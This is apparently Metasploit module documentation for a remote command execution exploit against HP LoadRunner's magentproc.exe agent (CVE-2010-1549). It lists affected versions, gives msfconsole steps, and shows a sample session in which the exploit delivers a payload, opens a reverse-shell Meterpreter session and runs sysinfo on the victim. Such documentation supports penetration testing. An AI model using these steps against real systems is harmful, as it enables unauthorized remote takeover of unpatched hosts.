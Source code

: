 ## Vulnerable Application

HP Mercury LoadRunner Agent magentproc.exe Remote Command Execution (CVE-2010-1549)

This module exploits a remote command execution vulnerablity in HP LoadRunner before 9.50 and also
HP Performance Center before 9.50. By sending a specially crafted packet, an attacker can execute commands remotely.
The service is vulnerable provided the Secure Channel feature is disabled (default).

During testing, additional versions were verified to be vulnerable.  The following list documents them:

 - HP LoadRunner 12.53 Community Edition (non-default SSL turned off)

HP LoadRunner 9.50 or below, or a version documented above.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: ```use exploit/windows/misc/hp_loadrunner_magentproc_cmdexec```
4. Do: ```set RHOST [ip]```
5. Do: ```run```
6. You should get a shell.

## Scenarios

### Win7 OS with HP LoadRunner 12.53 Community Edition

```
msf > use exploit/windows/misc/hp_loadrunner_magentproc_cmdexec
msf exploit(hp_loadrunner_magentproc_cmdexec) > set RHOST victim
RHOST => victim
msf exploit(hp_loadrunner_magentproc_cmdexec) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444
[*] victim:54345 - Sending payload...
[*] victim:54345 - Command Stager progress -   1.47% done (1499/102292 bytes)
[*] victim:54345 - Command Stager progress -   2.93% done (2998/102292 bytes)
[*] victim:54345 - Command Stager progress -   4.40% done (4497/102292 bytes)
[*] victim:54345 - Command Stager progress -   5.86% done (5996/102292 bytes)
[*] victim:54345 - Command Stager progress -   7.33% done (7495/102292 bytes)
...snip...
[*] victim:54345 - Command Stager progress -  92.32% done (94437/102292 bytes)
[*] victim:54345 - Command Stager progress -  93.79% done (95936/102292 bytes)
[*] victim:54345 - Command Stager progress -  95.25% done (97435/102292 bytes)
[*] victim:54345 - Command Stager progress -  96.72% done (98934/102292 bytes)
[*] victim:54345 - Command Stager progress -  98.15% done (100400/102292 bytes)
[*] victim:54345 - Command Stager progress -  99.55% done (101827/102292 bytes)
[*] victim:54345 - Command Stager progress - 100.00% done (102292/102292 bytes)
[*] Sending stage (179267 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:55556) at 2017-11-09 03:53:08 +1100

meterpreter > sysinfo
Computer        : TARGET
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_AU
Domain          : DOMAIN
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter >
Background session 1? [y/N]

```
